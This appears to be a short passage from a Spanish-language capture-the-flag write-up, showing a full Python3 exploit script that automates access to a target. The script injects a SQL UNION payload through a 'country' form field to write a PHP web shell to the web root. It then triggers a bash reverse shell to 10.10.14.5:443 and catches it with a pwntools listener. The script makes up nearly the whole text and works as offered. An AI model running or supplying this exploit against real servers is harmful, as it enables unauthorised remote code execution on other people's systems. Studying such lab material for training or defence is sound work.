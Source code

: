 <br>

### CREACIÓN DE UN EXPLOIT CON PYTHON3 PARA AUTOMATIZAR EL ACCESO [EXTRA]

```python
#!/usr/bin/python3

import signal, pdb, requests
from pwn import *

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n]")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) != 3:
    log.failure("Uso: python3 validation.py <IP_victima> <Filename>")
    sys.exit(1)

# Variables Globales
ip_victima = sys.argv[1]
filename = sys.argv[2]
lport = 443

main_url = "http://%s/" % ip_victima

def createFile():

    datapost = {
        'username' : 'test',
        'country':"""Brazil' union select "<?php system($_GET['cmd']) ?>" into outfile "/var/www/html/%s"-- -""" % filename

    }

    r = requests.post(main_url, data=datapost)

def getAccess():

    main_url = f"http://{ip_victima}/{filename}?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'"

    r = requests.get(main_url)

if __name__ == '__main__':

    createFile()

    try:    
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.failure(str(e))

    shell = listen(lport, timeout=20).wait_for_connection() 
    shell.interactive()
```
